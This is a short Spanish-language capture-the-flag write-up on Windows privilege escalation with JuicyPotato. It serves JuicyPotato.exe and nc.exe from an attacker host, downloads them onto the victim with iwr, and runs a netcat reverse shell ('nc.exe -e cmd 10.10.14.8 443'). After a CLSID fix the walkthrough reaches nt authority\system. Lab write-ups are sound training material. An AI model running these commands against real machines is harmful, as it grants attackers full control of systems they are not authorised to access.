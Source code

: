 ```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.8/JuicyPotato.exe -OutFile JuicyPotato.exe
iwr -uri http://10.10.14.8/nc.exe -OutFile nc.exe
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Nos connectamos con el servicio nc con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443"
```

Aqui nos sale une error 10038. Esto suele passar cuando el CLSID no es el correcto. Como savemos con el systeminfo
que estamos en una maquina Windows10 Enterprise, podemos buscar el CLSID correcto en [Interesting CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
encontramos el CLSID que corresponde y con el parametro `-c`

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

La reverse shell nos a functionnado y con `whoami` vemos que ya somos nt authority\system y podemos ver la flag.
